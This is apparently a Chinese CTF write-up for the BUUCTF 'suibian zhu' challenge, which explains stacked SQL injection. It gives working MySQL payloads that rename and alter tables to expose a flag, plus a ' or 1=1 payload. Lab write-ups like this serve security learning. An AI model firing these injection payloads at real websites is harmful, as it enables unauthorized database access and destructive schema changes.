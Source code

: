 ```yaml
---
title: BuuWeb1
date: 2020-10-28 11:02:50
cover: https://img.buuoj.cn/buugirl/img.php
tags:
	- CTF
	- WEB
---
```




# 强网杯随便注

![截屏2020-10-28 上午11.24.27](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-10-28 上午11.24.27.png)

这题显然是存在sql注入点的。主要考点是**堆叠注入**。然而堆叠注入本身的意思就只是能连续执行sql语句而已。

以下记录一些解题过程中用到的东西。

desc [表名]可以查看表结构 (数字开头的表名需要加反引号)

show columns from [表名] （常用show databases，show tables，第一次见这个）

rename tables [表名1] to [表名2] 修改表名



## 爆表

![截屏2020-11-09 下午5.21.37](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-11-09 下午5.21.37.png)

## desc查看表结构

1919810931114514表结构

![截屏2020-11-09 下午5.25.06](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-11-09 下午5.25.06.png)

words表结构

![截屏2020-11-09 下午5.27.35](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-11-09 下午5.27.35.png)

由于没有select可以用，所以用个神奇的操作，把flag所在表的名字改成words，并在flag所在表中增加一个字段id。

payload：

```mysql
1’;rename table words to n0p3;rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

```mysql
1‘;rename tables `words` to `n0p3`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);
```

然后 1' or 1=1;#读flag

![截屏2020-10-28 上午11.17.14](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-10-28 上午11.17.14.png)![截屏2020-10-28 上午11.17.28](/Users/xuziyi/Library/Application Support/typora-user-images/截屏2020-10-28 上午11.17.28.png)